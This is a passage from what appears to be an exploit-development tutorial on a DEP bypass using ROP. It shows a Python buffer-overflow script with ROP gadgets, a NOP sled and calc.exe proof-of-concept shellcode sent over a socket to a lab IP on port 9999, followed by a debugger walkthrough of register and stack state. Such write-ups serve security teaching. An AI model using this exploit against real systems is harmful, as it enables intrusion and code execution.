 ```python
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)


# Padding between ROP Gadgets and shellcode. Arbitrary number (just make sure you have enough room on the stack)
padding2 = "\x90" * 250

# calc.exe POC payload created with the Windows API system() function.
# You can replace this with an msfvenom payload if you would like
shellcode = "\x31\xc0\x50\x68"
shellcode += "\x63\x61\x6c\x63"
shellcode += "\x54\xbe\x77\xb1"
shellcode += "\xfa\x6f\xff\xd6"

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash)-len(parameters)-len(padding)-len(rop)-len(padding2)-len(padding2))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+rop+parameters+padding+rop2+padding2+shellcode+filler)
s.close()
```

The below screenshots show the stack and registers right before the `pop ebp` instruction. Notice that EIP is currently one address space above the current ESP. ESP right now contains a memory address that points to `0x50505050`, which is our padding.

Disassembly window before execution: 

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP26.PNG" alt="">

Current state of the registers (EIP contains the address of the `mov edx, ecx` instruction at the moment:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP27.PNG" alt="">

The current state of the stack. ESP contains the memory address `0x0189FA3C`, which points to `0x50505050`:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP28.PNG" alt="">

Now, here is the state of the registers after all of the instructions except `ret` have been executed. EDX now contains the same value as ECX, and EBP contains our intended padding value of `0x50505050`!:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP29.PNG" alt="">

Remember that we still need to increase EDX by four bytes. The ROP gadgets after the `mov edx, ecx + pop ebp + ret` take care of this:

<img src="{{ site.url }}{{ site.baseurl }}/images/DEP30.PNG" alt="">
